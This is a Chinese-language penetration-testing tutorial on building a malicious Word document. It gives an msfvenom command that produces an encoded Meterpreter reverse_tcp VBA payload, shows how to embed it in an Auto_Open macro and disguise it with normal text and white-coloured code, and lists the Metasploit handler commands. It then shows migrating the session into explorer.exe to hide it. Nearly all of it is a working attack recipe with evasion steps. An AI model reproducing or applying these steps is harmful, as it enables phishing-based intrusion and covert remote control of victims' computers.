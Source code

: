 Word 宏病毒是嵌入文档中的恶意代码，利用宏功能传播并执行破坏性操作，如篡改文件或窃取信息。

> 需要安装 Office LTSC 专业增强版 2021

## 1 制作木马文档

生成 payload

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.6.24 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f vba-exe
```

打开 word 的宏

![](./../../../image/Word%20%E5%AE%8F/%E6%89%93%E5%BC%80%20word%20%E7%9A%84%E5%AE%8F.png)

输入宏病毒的名，创建

```
Auto_Open
```

![](./../../../image/Word%20%E5%AE%8F/%E8%BE%93%E5%85%A5%E5%AE%8F%E7%97%85%E6%AF%92%E7%9A%84%E5%90%8D%EF%BC%8C%E5%88%9B%E5%BB%BA.png)

清空代码，写入宏病毒，打开视图

> 粘贴从 Sub Auto_Open() 到 End Sub 的内容

![](./../../../image/Word%20%E5%AE%8F/%E6%B8%85%E7%A9%BA%E4%BB%A3%E7%A0%81%EF%BC%8C%E5%86%99%E5%85%A5%E5%AE%8F%E7%97%85%E6%AF%92%EF%BC%8C%E6%89%93%E5%BC%80%E8%A7%86%E5%9B%BE.png)

写入 Payload，保存

> 粘贴***下面的长字符段

![](./../../../image/Word%20%E5%AE%8F/%E5%86%99%E5%85%A5%20Payload%EF%BC%8C%E4%BF%9D%E5%AD%98.png)

修饰

> 建议在文档开头加入正常的内容，并将 Payload 代码改成白色

![](./../../../image/Word%20%E5%AE%8F/%E4%BF%AE%E9%A5%B0.png)

> 点开文档会运行宏代码，下载木马至某个目录中，并执行木马，反弹 shell

## 2 渗透测试

msf 配置侦听

```
msf6 > use exploit/multi/handler
```

```
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/handler) > set lhost 192.168.6.24
```

```
msf6 exploit(multi/handler) > set lport 4444
```

```
msf6 exploit(multi/handler) > run
```

目标运行文档

![](./../../../image/Word%20%E5%AE%8F/%E7%9B%AE%E6%A0%87%E8%BF%90%E8%A1%8C%E6%96%87%E6%A1%A3.png)

> 成功建立连接，目标关闭 word 文档之后 session 不受影响

## 3 进程迁移

> 建议将进程迁移到资源管理器

在目标主机中可看到可疑进程

![](./../../../image/Word%20%E5%AE%8F/%E5%9C%A8%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BA%E4%B8%AD%E5%8F%AF%E7%9C%8B%E5%88%B0%E5%8F%AF%E7%96%91%E8%BF%9B%E7%A8%8B.png)

获取当前进程 pid

```
meterpreter > getpid
Current pid: 964
```

查看进程列表，根据 pid 找到进程

```
meterpreter > ps
```

![](./../../../image/Word%20%E5%AE%8F/%E6%9F%A5%E7%9C%8B%E8%BF%9B%E7%A8%8B%E5%88%97%E8%A1%A8%EF%BC%8C%E6%A0%B9%E6%8D%AE%20pid%20%E6%89%BE%E5%88%B0%E8%BF%9B%E7%A8%8B.png)

查看资源管理器的进程

```
meterpreter > ps -S explorer.exe
```

![](./../../../image/Word%20%E5%AE%8F/%E6%9F%A5%E7%9C%8B%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E5%99%A8%E7%9A%84%E8%BF%9B%E7%A8%8B.png)

将可疑进程隐藏到资源管理器

```
meterpreter > migrate 4508
```

再次查看 pid

```
meterpreter > getpid
Current pid: 4508
```

目标主机中可疑进程迁移到了资源管理器

![](./../../../image/Word%20%E5%AE%8F/%E5%9C%A8%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BA%E4%B8%AD%E5%8F%AF%E7%9C%8B%E5%88%B0%E5%8F%AF%E7%96%91%E8%BF%9B%E7%A8%8B.png)